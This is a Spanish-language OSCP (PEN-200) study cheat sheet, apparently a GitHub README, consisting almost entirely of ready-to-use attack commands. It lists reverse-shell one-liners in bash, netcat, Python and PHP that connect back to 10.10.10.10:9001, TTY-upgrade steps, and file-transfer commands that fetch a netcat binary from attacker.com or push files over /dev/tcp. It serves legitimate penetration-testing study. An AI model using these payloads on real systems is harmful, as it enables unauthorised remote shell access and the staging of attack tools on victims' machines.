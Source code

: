 ﻿# Notas de preparación para el OSCP 

**Año : 2021**

![oscp](https://blog.nivel4.com/wp-content/uploads/2019/01/try-harder.png)

**Curso: Penetration Testing with Kali Linux (PEN-200)**

## Contenido
- [Linux](#Linux)  
  - [Reverse shells](#Reverse-shells) 
    - [Bash](#Bash)
    - [Netcat](#Netcat)   
    - [Python](#Python)
    - [PHP](#PHP)
  - [Spawneando una shell mejor](#Spawning-a-TTY-shell)   
  - [Transferencia de Archivos](#Transfiriendo-Archivos)
    - [HTTP](#HTTP)
      - [Python](#Python_t)
      - [Python3](#Python3)
      - [Apache](#Apache)
      - [Php](#PHP_t)
    - [Curl](#Curl)
    - [Wget](#Wget)
    - [NetCat](#NetCat_t)
    - [/dev/tcp/](#Dev-tcp)
    - [FTP](#FTP)
    - [SCP](#SCP)
    - [Samba](#Samba)
   
  - Bypassing restricted shells (rbash , rzsh,etc)    
- [Windows](#Windows)
- 
- [Reverse Shell]

Linux 
=========================================
Técnicas para utilizar en sistemas basados en unix

### Reverse shells

[Reverse shell generator](https://www.revshells.com/)

### Reverse shell comúnes
#### Bash
  ```bash
  bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 
  ```
#### Netcat 
  ```bash
  nc -e /bin/bash 10.10.10.10 9001
  nc -e /bin/sh 10.10.10.10 9001
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
  ```
  
#### Python
  ```bash
  export RHOST="10.10.10.10";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
  
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
  ```
#### PHP 
  ```bash
  php -r '$sock=fsockopen("10.10.10.10",9001);exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);shell_exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);system("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);passthru("bash <&3 >&3 2>&3");'
  Laudanum common reverse shell /usr/share/webshells/laudanum/php/php-reverse-shell.php
  ```
 
### Spawning a TTY shell
  ```bash 
      python3 -c 'import pty;pty.spawn("/bin/bash")' 
      script /dev/null -c bash 
      \[ctrl+z] 
      stty raw -echo
      fg
    ## Usando rlwrap & script
      rlwrap nc -nlvp 443
      /usr/bin/script -qc /bin/bash /dev/null
    ## Usando socat
      parrot~> socat file:`tty`,raw,echo=0 tcp-listen:4444
      target~> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
    ## Exportando variables para poder tener una shell full interactiva
      export TERM=xterm-256color
      export SHELL=bash
      alias ll='ls -lsaht –color=auto'
  ```
## Transfiriendo archivos

### HTTP
#### Python_t
  ```bash
  python -m SimpleHTTPServer 80
  ```
#### Python3
  ```bash
  python3 -m http.server 80
  ```
#### Apache
  ```bash
  sudo service start apache2
  sudo systemctl apache2 start
  ```
#### PHP_t
  ```bash
  php -S 0.0.0.0:8080
  ```
### Curl
  ```bash
  curl -O http://attacker.com/nc
  ```
### Wget
  ```bash
  wget http://attacker.com/nc # current directory
  wget http://attacker.com/nc -O /dev/shm/nc # Setting output path
  ```
### NetCat_t
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  source -> nc targetip 4444 -w 3 < FileToTransfer (w representa un tiempo de espera en seg para archivos muy grandes)
  ```
### Dev tcp
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  cat FileToTransfer > /dev/tcp/targetip/4444 
  ```
### FTP
  ```bash
  pip3 install pyftpdlib
  source -> python3 -m pyftpdlib -p 21 -u chan -P 123
  target -> ftp sourceip # pw : 123  
  ```
### SCP
  ```bash
  source -> scp file.txt user@10.10.10.10:/tmp
  target -> cat /tmp/file.txt
  ```
### Samba
  ```bash
  source -> sudo impacket-smbserver share $(pwd) -user chan -password
  target -> smbclient //sourceip/share -U chan%chan
  ```
